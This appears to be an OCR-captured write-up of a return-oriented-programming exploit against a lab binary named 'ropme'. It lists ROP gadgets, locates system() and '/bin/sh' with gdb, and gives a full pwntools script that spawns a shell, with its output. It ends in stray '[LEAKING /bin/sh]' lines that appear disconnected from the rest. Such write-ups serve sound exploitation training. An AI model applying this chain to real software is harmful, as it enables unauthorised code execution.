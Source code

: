 ```bash
0x00000000004005d5: nop dword ptr [rax]; pop rbp; ret; 
0x0000000000400587: nop word ptr [rax + rax]; pop rbp; ret; 
0x00000000004006cc: pop r12; pop r13; pop r14; pop r15; ret; 
0x00000000004006ce: pop r13; pop r14; pop r15; ret; 
0x00000000004006d0: pop r14; pop r15; ret; 
0x00000000004006d2: pop r15; ret; 
0x000000000040057f: pop rbp; mov edi, 0x601048; jmp rax; 
0x00000000004006cb: pop rbp; pop r12; pop r13; pop r14; pop r15; ret; 
0x00000000004006cf: pop rbp; pop r14; pop r15; ret; 
0x0000000000400590: pop rbp; ret; 
0x00000000004006d3: pop rdi; ret; 
0x00000000004006d1: pop rsi; pop r15; ret; 
0x00000000004006cd: pop rsp; pop r13; pop r14; pop r15; ret; 
0x000000000040058a: test byte ptr [rax], al; add byte ptr [rax], al; add byte ptr [rax], al; pop rbp; ret; 
0x000000000040057b: test eax, eax; je 0x590; pop rbp; mov edi, 0x601048; jmp rax; 
0x00000000004005c9: test eax, eax; je 0x5d8; pop rbp; mov edi, 0x601048; jmp rax; 
0x000000000040057a: test rax, rax; je 0x590; pop rbp; mov edi, 0x601048; jmp rax; 
0x00000000004005c8: test rax, rax; je 0x5d8; pop rbp; mov edi, 0x601048; jmp rax;
```

This gadget is right what we need: `0x00000000004006d3: pop rdi; ret;`.
Next , use gdb:
```bash
gef➤  print system
$2 = {int (const char *)} 0x7ffff7e37e50 <__libc_system>

gef➤  search-pattern /bin/sh
[+] Searching '/bin/sh' in memory
[+] In '/usr/lib/x86_64-linux-gnu/libc-2.31.so'(0x7ffff7f5f000-0x7ffff7fa9000), permission=r--
  0x7ffff7f79152 - 0x7ffff7f79159  →   "/bin/sh"
```

Thus, we have all gadgets and addresses.
Local exploit:
```python
#!/usr/bin/env python3
from pwn import *

p = process('./ropme')
#gdb.attach(p, 'b *main')
payload = b'A' * 72
payload += p64(0x4006d3)
payload += p64(0x7ffff7f79152)
payload += p64(0x7ffff7e37e50)
p.recv()
p.sendline(payload)
p.interactive()
```
```bash
python3 exploit.py                          
[+] Starting local process './ropme': pid 5907
[*] Switching to interactive mode
$ whoami
kali
$
```


[LEAKING /bin/sh]: b'\n' 1625423
[LEAKING /bin/sh]: b'TO FIX: \n' 1625415
[LEAKING /bin/sh]: b'V_LEVEL\n' 1625407
[LEAKING /bin/sh]: b'GVERB\n' 1625399
[LEAKING /bin/sh]: b'ize.c\n' 1625391
[LEAKING /bin/sh]: b'anonicalize.c\n' 1625383
[LEAKING /bin/sh]: b'/bin/sh\n' 1625367